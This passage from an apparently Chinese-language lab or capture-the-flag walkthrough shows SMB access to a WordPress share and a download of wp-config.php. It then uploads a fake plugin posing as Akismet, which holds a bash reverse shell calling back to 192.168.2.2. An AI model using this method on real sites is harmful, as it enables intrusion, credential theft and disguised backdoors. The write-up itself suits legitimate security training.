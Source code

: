                   3029776 blocks of size 1024. 1341644 blocks available
  smb: \> cd wordpress\
  smb: \wordpress\> ls
    .                                   D        0  Tue Aug 15 07:21:08 2017
    ..                                  D        0  Tue Aug 15 07:05:52 2017
    wp-config-sample.php                N     2853  Wed Dec 16 04:58:26 2015
    wp-trackback.php                    N     4513  Fri Oct 14 15:39:28 2016
    wp-admin                            D        0  Wed Aug  2 17:02:02 2017
    wp-settings.php                     N    16200  Thu Apr  6 14:01:42 2017
    wp-blog-header.php                  N      364  Sat Dec 19 06:20:28 2015
    index.php                           N      418  Tue Sep 24 20:18:11 2013
    wp-cron.php                         N     3286  Sun May 24 13:26:25 2015
    wp-links-opml.php                   N     2422  Sun Nov 20 21:46:30 2016
    readme.html                         N     7413  Mon Dec 12 03:01:39 2016
    wp-signup.php                       N    29924  Tue Jan 24 06:08:42 2017
    wp-content                          D        0  Mon Aug 21 06:07:27 2017
    license.txt                         N    19935  Mon Jan  2 12:58:42 2017
    wp-mail.php                         N     8048  Wed Jan 11 00:13:43 2017
    wp-activate.php                     N     5447  Tue Sep 27 17:36:28 2016
    .htaccess                           H       35  Tue Aug 15 07:40:13 2017
    xmlrpc.php                          N     3065  Wed Aug 31 12:31:29 2016
    wp-login.php                        N    34327  Fri May 12 13:12:46 2017
    wp-load.php                         N     3301  Mon Oct 24 23:15:30 2016
    wp-comments-post.php                N     1627  Mon Aug 29 08:00:32 2016
    wp-config.php                       N     3703  Mon Aug 21 05:25:14 2017
    wp-includes                         D        0  Wed Aug  2 17:02:03 2017
  
                  3029776 blocks of size 1024. 1341636 blocks available
  smb: \wordpress\> mget wp-config.php
  Get file wp-config.php? y
  getting file \wordpress\wp-config.php of size 3703 as wp-config.php (1808.0 KiloBytes/sec) (average 549.8 KiloBytes/sec)
  ```

- ![image-20230822153459459](https://raw.githubusercontent.com/r0o983/images/main/202308221534557.png)

### 获得`www-data`初始shell

- 标准流程:上传插件,使用插件来获得反弹shell

  1. 将本地的反弹shell打包为`zip`格式进行上传 `zip 打包后的名字.zip 原始文件名.sh`

  2. ```shell
     <?php 
     
     /**
      * @package r0o983
      */
     /*
     Plugin Name: Akismet Anti-Spam
     Plugin URI: https://akismet.com/
     Description: Used by millions, Akismet is quite possibly the best way in the world to <strong>protect your blog from spam</strong>. It keeps your site protected even while you sleep. To get started: activate the Akismet plugin and then go to your Akismet Settings page to set up your API key.
     Version: 3.3.3
     Author: Automattic
     Author URI: https://automattic.com/wordpress-plugins/
     License: GPLv2 or later
     Text Domain: akismet
      */
     ### 上半部分为需要填充的字符...没什么实际意义.
     
     <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.2/1234 0>&1'"); ?>
  ```